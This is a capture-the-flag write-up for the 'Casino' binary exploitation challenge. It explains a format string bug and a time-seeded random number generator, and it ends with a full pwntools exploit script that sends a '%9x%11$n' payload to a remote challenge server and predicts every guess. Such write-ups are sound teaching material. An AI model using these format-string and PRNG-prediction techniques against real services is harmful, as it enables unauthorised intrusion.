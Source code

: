 # Casino (pwn)
Even though this had a low point value, this is definitely the hardest CTF binary exploitation challenge that I have solved in a long while...

## Problem Statement:

![alt text](imgs/problem_statement.PNG "Chall")

## Initial Analysis:
As always, with every binary exploitation problem, we begin by taking a look at the protections enabled on the binary:

![alt text](imgs/checksec.PNG "checksec")

What's noteworthy is that full-RELRO is enabled. Normally, this is disabled for performance reasons. Since full-RELRO makes the GOT-table read only, we can infer that one of the vulnerabilities could allow us to write to the GOT table, and so we need to find some other ways to exploit this program. Let's run this binary and see what happens:

![alt text](imgs/init.PNG "init")

Ok, there seems to be some number guessing going on (hence the name "casino"). Also, the first input that we gave to the program is echo'd out back to us. From experience, this might hint to us to try out format strings, which is confirmed below:

![alt text](imgs/fmt.PNG "fmt")

This also explains why full-RELRO is enabled on the binary. Now, time to look at the assembly code for in-depth analysis.

## Disassembly Analysis:

Below is the code for the random seed generation:

![alt text](imgs/seedgen.PNG "seedgen")

and below is the code for the random numbers:

![alt text](imgs/randgen.PNG "randgen")

Basically, time() is called with a given parameter of 0, which returns the current epoch time in seconds. Frequently, this is enough to serve as a seed of rand(), however within this program it gets a bit more complex. The "mov edx, cccccccDh; mul edx" instructions multiplies the time by 0xcccccccd, the "shr eax, 3" instruction shifts the most significant 32 bits of eax from the multiplication result to the right by 3, and the "mov eax, cs:bet; add [rbp+seed], eax;" adds the final result by whatever is stored in the global variable bet. This is then finally saved as the seed for the srand() function. Although this looks complicated, we can emulate the seed generation by using the below python snippet:

```python
seed = int(time())
seed = seed * 0xcccccccd
seed = int(str(hex(seed))[:10], 16)
seed = seed >> 3
seed = seed + bet
```

The rest of main() generates 100 values based on the returned result of rand(). Using the same idea described in one of the challenge writeups in [TJCTF](https://medium.com/@mihailferaru2000/tjctf-2018-full-binary-exploitation-walk-through-a72a9870564e), we can generate 100 values using the rand() number generater by passing the seed as a command line parameter below:

```C
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
    int seed = atoi(argv[1]);
    srand(seed);
    for(int i = 0; i < 100; i++) {
        printf("%d\n", rand());
    }
    return 0;
}
```
Combine the output of the 100 numbers, and we should be good to go............
![alt text](imgs/almost.PNG "almost")
...........or not.

## Format string attack

What went wrong? Well, a closer look at the disassembly reviewed the answer. A value "which I named dowewin" is initialized with 0, and after each random number guess, it is incremented by the value of bet, which was initially set to 1. However, since we start at 0, after 100 numbers, we only reach 99. This "dowewin" value must be greater than 100 after all the numbers are guessed, so even after we finished generating all the values, we won't be able to get the flag. Foiled!

...however, remember from earlier, we have a format string vulnerability. Although we cannot write to the GOT table, we can write to bet, since it is a global variable that is located in the .data section of the binary at address 0x602020, which has read/write permissions.

Unfortunately when we tried to write anything to that location, we ran into a few more problems:

First, our buffer is only 16 bytes long, which is very, very small. The second issue is illustrated below:
![alt text](imgs/almost.PNG "almost")
It's very subtle, but the second issue is that printf stops when it hits a single null byte (otherwise the AAA's will be printed), as C-strings are null terminated. However since 0x602020 is only a 24 bit address and printf only reads 64-bit addresses at a time, we must fill the rest of the 64-bit value with null bytes.

This issue caused me 4 hours of pain, as I tried various methods of overflow, writing 0x602020 to some arbitrary location on the heap and fetching it, and writing 0x602020 to the stack itself and getting lucky with ASLR

Eventually, I worked around it by writing the address to the last 64 bits of the buffer, and doing the format string attack with the first 64 bits of the buffer, and it finally worked:

![alt text](imgs/write.PNG "write")

The 'bet' variable is now 9 instead of 1, so the seed generation portion of the exploit must be adjusted accordingly. After that, it was smooth sailing from there.

## Full exploit script:
```python
from pwn import *
from time import time
import subprocess

bet = 0x602020

game = remote('35.243.188.20', 2001)

#Overwrite bet with 0x9, so that the casino can't cheat me (easily the hardest part)
game.recvuntil("name? ")
fmtstr = "%9x%11$n"
fmtstr += "\x20\x20\x60\x00\x00\x00\x00\x00"
game.sendline(fmtstr)

#Abuse the PRNG that is seeded with the current time after multiplying with 0xcccccccd, stripping the lower half, and shifting right by 3
seed = int(time())
log.info("Current time: " + str(seed))
seed = seed * 0xcccccccd
seed = int(str(hex(seed))[:10], 16)
seed = seed >> 3
seed = seed + 9

log.success("Random seed value: " + str(seed))

#Generate the 100 values with the calculated seed value
log.info("Generating 100 values with the calculated seed value...")
rng = subprocess.Popen(['./rand', str(seed)], stdout=subprocess.PIPE)
output = rng.stdout
log.success("Values Generated!")


valueList = []
for i in range(100):
	valueList.append(output.readline().strip())
log.success("Values Filled!")

#Play the game!
for value in valueList:
	progress = game.recvuntil("number: ")
	print progress
	log.info("Trying " + str(value))
	game.sendline(str(value))
	result = game.recvline()
	if "Sorry!" in result:
		log.failure("Guess was incorrect. Aborting...")
		exit()
	elif "Correct" in result:
		if "99/100" in progress:
			log.success("WE FINALLY WIN!")
			win = game.recvline()
			print win
			flag = game.recvuntil('}')
			print flag
			exit()
		log.success("Guess was correct! Keep going...")
```
## Epilogue
And after much blood, sweat, and tears, we finally get the flag:

![alt text](imgs/finally.PNG "finally")

Thanks to the fireshell CTF team for this challenge, it caused me to rage so much but getting the flag at the end was so worth it!




